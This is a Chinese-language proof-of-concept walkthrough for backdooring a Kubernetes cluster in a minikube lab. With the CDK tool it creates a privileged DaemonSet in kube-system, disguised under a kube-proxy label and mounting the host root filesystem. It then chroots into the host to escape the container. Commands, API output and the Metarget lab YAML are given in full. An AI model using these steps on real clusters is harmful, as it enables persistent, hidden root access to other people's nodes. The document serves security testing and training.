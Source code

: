 # Kubernetes 部署后门 Daemonset

## 漏洞描述

DaemonSet 确保全部（或者某些）节点上运行一个 Pod 的副本。 当有节点加入集群时， 也会为他们新增一个 Pod 。 当有节点从集群移除时，这些 Pod 也会被回收。删除 DaemonSet 将会删除它创建的所有 Pod。

在集群内获取到一定的权限，需要对当前的权限进行持久化控制时，可利用 K8s Daemonset 资源的特性，创建一个 kube-system 命名空间下的 Daemonset 资源，进行持久化控制。

参考链接：

- https://kubernetes.io/zh-cn/docs/concepts/workloads/controllers/daemonset/
- https://github.com/cdk-team/CDK/wiki/Exploit:-k8s-backdoor-daemonset
- https://github.com/cdk-team/CDK/blob/main/test/k8s_exploit_util/backdoor_daemonset.yaml
- https://github.com/Metarget/metarget

## 环境搭建

基础环境准备（Docker + Minikube + Kubernetes），可参考 [Kubernetes + Ubuntu 18.04 漏洞环境搭建](https://github.com/Threekiii/Awesome-POC/blob/master/%E4%BA%91%E5%AE%89%E5%85%A8%E6%BC%8F%E6%B4%9E/Kubernetes%20%2B%20Ubuntu%2018.04%20%E6%BC%8F%E6%B4%9E%E7%8E%AF%E5%A2%83%E6%90%AD%E5%BB%BA.md) 完成。

本例中各组件版本如下：

```
Docker version: 18.09.3
minikube version: v1.35.0
Kubectl Client Version: v1.32.3
Kubectl Server Version: v1.32.0
```

通过 yaml 文件创建漏洞环境：

```
kubectl apply -f k8s_metarget_namespace.yaml
kubectl apply -f k8s_backdoor_daemonset.yaml
```

执行完成后，K8s 集群内 `metarget` 命名空间下将会创建一个名为 `k8s-backdoor-daemonset` 的 pod：

```
kubectl get pods -n metarget
-----
NAME                     READY   STATUS    RESTARTS   AGE
k8s-backdoor-daemonset   1/1     Running   0          9m54s
```

![](images/Kubernetes%20部署后门%20Daemonset/image-20250422100649103.png)

## 漏洞复现

下载漏洞利用工具 [CDK](https://github.com/cdk-team/CDK)，将其传入 `k8s-backdoor-daemonset`pod 中：

```
kubectl cp cdk k8s-backdoor-daemonset:/ -n metarget
```

执行以下命令运行工具（该命令会在 `kubs-system` 空间下创建一个 daemonset 资源）：

```
kubectl exec -n metarget -it k8s-backdoor-daemonset -- chmod +x /cdk
kubectl exec -n metarget -it k8s-backdoor-daemonset -- /cdk run k8s-backdoor-daemonset default ubuntu "touch /tmp/awesome_poc ; sleep 10000"
-----
2025/04/22 02:11:42 getting K8s api-server API addr.
	Find K8s api-server in ENV: https://10.96.0.1:443
2025/04/22 02:11:42 trying to deploy daemonset with image:ubuntu to k8s-app:kube-proxy
2025/04/22 02:11:42 api-server response:
{"kind":"DaemonSet","apiVersion":"apps/v1","metadata":{"name":"cdk-backdoor-daemonset","namespace":"kube-system","uid":"ffdf2f2e-e4ce-4938-8ed9-ee7b80753381","resourceVersion":"4619","generation":1,"creationTimestamp":"2025-04-22T02:11:42Z","labels":{"k8s-app":"kube-proxy"},"annotations":{"deprecated.daemonset.template.generation":"1"},"managedFields":[{"manager":"Go-http-client","operation":"Update","apiVersion":"apps/v1","time":"2025-04-22T02:11:42Z","fieldsType":"FieldsV1","fieldsV1":{"f:metadata":{"f:annotations":{".":{},"f:deprecated.daemonset.template.generation":{}},"f:labels":{".":{},"f:k8s-app":{}}},"f:spec":{"f:revisionHistoryLimit":{},"f:selector":{},"f:template":{"f:metadata":{"f:labels":{".":{},"f:k8s-app":{}}},"f:spec":{"f:containers":{"k:{\"name\":\"cdk-backdoor-pod\"}":{".":{},"f:args":{},"f:image":{},"f:imagePullPolicy":{},"f:name":{},"f:resources":{},"f:securityContext":{".":{},"f:capabilities":{".":{},"f:add":{}},"f:privileged":{}},"f:terminationMessagePath":{},"f:terminationMessagePolicy":{},"f:volumeMounts":{".":{},"k:{\"mountPath\":\"/host-root\"}":{".":{},"f:mountPath":{},"f:name":{}}}}},"f:dnsPolicy":{},"f:hostNetwork":{},"f:hostPID":{},"f:restartPolicy":{},"f:schedulerName":{},"f:securityContext":{},"f:terminationGracePeriodSeconds":{},"f:volumes":{".":{},"k:{\"name\":\"host-volume\"}":{".":{},"f:hostPath":{".":{},"f:path":{},"f:type":{}},"f:name":{}}}}},"f:updateStrategy":{"f:rollingUpdate":{".":{},"f:maxSurge":{},"f:maxUnavailable":{}},"f:type":{}}}}}]},"spec":{"selector":{"matchLabels":{"k8s-app":"kube-proxy"}},"template":{"metadata":{"creationTimestamp":null,"labels":{"k8s-app":"kube-proxy"}},"spec":{"volumes":[{"name":"host-volume","hostPath":{"path":"/","type":""}}],"containers":[{"name":"cdk-backdoor-pod","image":"ubuntu","args":["/bin/sh","-c","touch /tmp/awesome_poc ; sleep 10000"],"resources":{},"volumeMounts":[{"name":"host-volume","mountPath":"/host-root"}],"terminationMessagePath":"/dev/termination-log","terminationMessagePolicy":"File","imagePullPolicy":"IfNotPresent","securityContext":{"capabilities":{"add":["NET_ADMIN","SYS_ADMIN","SYS_PTRACE","AUDIT_CONTROL","MKNOD","SETFCAP"]},"privileged":true}}],"restartPolicy":"Always","terminationGracePeriodSeconds":30,"dnsPolicy":"ClusterFirst","hostNetwork":true,"hostPID":true,"securityContext":{},"schedulerName":"default-scheduler"}},"updateStrategy":{"type":"RollingUpdate","rollingUpdate":{"maxUnavailable":1,"maxSurge":0}},"revisionHistoryLimit":10},"status":{"currentNumberScheduled":0,"numberMisscheduled":0,"desiredNumberScheduled":0,"numberReady":0}}
```

![](images/Kubernetes%20部署后门%20Daemonset/image-20250422101155770.png)

验证部署结果：

```
kubectl get ds -n kube-system | grep cdk
-----
cdk-backdoor-daemonset   1         1         1       1            1           <none>                   74s
```

![](images/Kubernetes%20部署后门%20Daemonset/image-20250422101313343.png)

CDK 将宿主机根目录挂载到了 [/host-root](https://github.com/cdk-team/CDK/blob/main/test/k8s_exploit_util/backdoor_daemonset.yaml)，此时我们已经获取了宿主机权限：

```
kubectl get pods -n kube-system | grep cdk
-----
cdk-backdoor-daemonset-rvmp9       1/1     Running   0             7m12s
```

![](Public/Awesome-POC/云安全漏洞/images/Kubernetes%20部署后门%20Daemonset/image-20250519180051414.png)

```
kubectl exec -n kube-system -it cdk-backdoor-daemonset-rvmp9 -- /bin/bash
root@minikube:/# ls -al /tmp
total 8
drwxrwxrwt 1 root root 4096 May 19 09:49 .
drwxr-xr-x 1 root root 4096 May 19 09:49 ..
-rw-r--r-- 1 root root    0 May 19 09:49 awesome_poc
root@minikube:/# chroot /host-root
# cat /etc/hostname
minikube
```

![](Public/Awesome-POC/云安全漏洞/images/Kubernetes%20部署后门%20Daemonset/image-20250519180036573.png)

> 由于我们是在 minikube 上运行 kubernetes，这里逃逸到的是 minikube 虚拟机。

## 环境复原

```
kubectl delete daemonset cdk-backdoor-daemonset -n kube-system
kubectl delete -f k8s_backdoor_daemonset.yaml
kubectl delete -f k8s_metarget_namespace.yaml
```

## YAML

[k8s_metarget_namespace.yaml](https://github.com/Metarget/metarget/blob/master/yamls/k8s_metarget_namespace.yaml)

```
apiVersion: v1
kind: Namespace
metadata:
  name: metarget
```

[k8s_backdoor_daemonset.yaml](https://github.com/Metarget/metarget/blob/master/vulns_cn/configs/pods/k8s_backdoor_daemonset.yaml)

```
apiVersion: v1
kind: ServiceAccount
metadata:
  name: k8s-backdoor-daemonset
  namespace: metarget
---
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRole
metadata:
  name: k8s-backdoor-daemonset
rules:
- apiGroups:
  - apps
  resources:
  - daemonsets
  verbs:
  - create
---
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRoleBinding
metadata:
  name: k8s-backdoor-daemonset
roleRef:
  apiGroup: rbac.authorization.k8s.io
  kind: ClusterRole
  name: k8s-backdoor-daemonset
subjects:
- kind: ServiceAccount
  name: k8s-backdoor-daemonset
  namespace: metarget
---
apiVersion: v1
kind: Pod
metadata:
  name: k8s-backdoor-daemonset
  namespace: metarget
spec:
  serviceAccountName: k8s-backdoor-daemonset
  containers:
  - name: ubuntu
    image: ubuntu:latest
    imagePullPolicy: IfNotPresent
    # Just spin & wait forever
    command: [ "/bin/bash", "-c", "--" ]
    args: [ "while true; do sleep 30; done;" ]
```
